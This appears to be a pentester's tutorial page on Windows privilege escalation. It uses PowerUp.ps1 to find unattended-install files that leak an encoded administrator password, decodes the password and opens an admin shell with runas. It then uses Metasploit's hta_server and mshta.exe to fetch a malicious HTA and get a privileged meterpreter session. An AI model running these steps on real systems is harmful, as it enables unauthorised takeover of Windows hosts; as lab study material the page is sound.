# 4 - Windows File System Vulnerabilities

* Alternate Data Streams

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc" %}

### How to use PowerUp.ps1 script

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 1
# traansfer to windows target.

# 2
# bypass powershell execution policy.
powershell -ep bypass

# 3
# import the module to the current session.
Import-Module .\PowerUp.ps1

# 4
# load the script
. .\PowerUp.ps1

# 5
# to see all imported commands
Get-Command -Module Privesc

# 6
# Invoke-PrivEscAudit checks and other checks
Invoke-PrivEscAudit
# we found some "Unattend installation .xml files" you could find something else.
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/Screenshot_2023-05-10_13-29-12.png" alt=""><figcaption></figcaption></figure>

cat out the content, you get the administrator username and its encoded password.

Decode it with Powershell.

<figure><img src="../../../../../.gitbook/assets/Screenshot_2023-05-10_13-39-12.png" alt=""><figcaption><p>decode password with PowerShell</p></figcaption></figure>

Now spawn a privileged cmd prompt session with the credentials using the "runas.exe" utility.

`runas.exe /user:Administrator cmd` - spawning cmd prompt shell.



Now open Metasploit in Kali

{% code overflow="wrap" lineNumbers="true" %}
```bash
# use the hta_server module
use exploit/windows/misc/hta_server
exploit

# it creates a 2 links, copy the local link
# http://0.0.0.0:8080/NQrQsVq9oDB3Tsd.hta

# goto the victim pc, run "mshta.exe" utility with the malicious HTA server link in the spawned cmd prompt session.
mshta.exe http://0.0.0.0:8080/NQrQsVq9oDB3Tsd.hta

# back in kali, we should get a privileged meterpreter session.
```
{% endcode %}





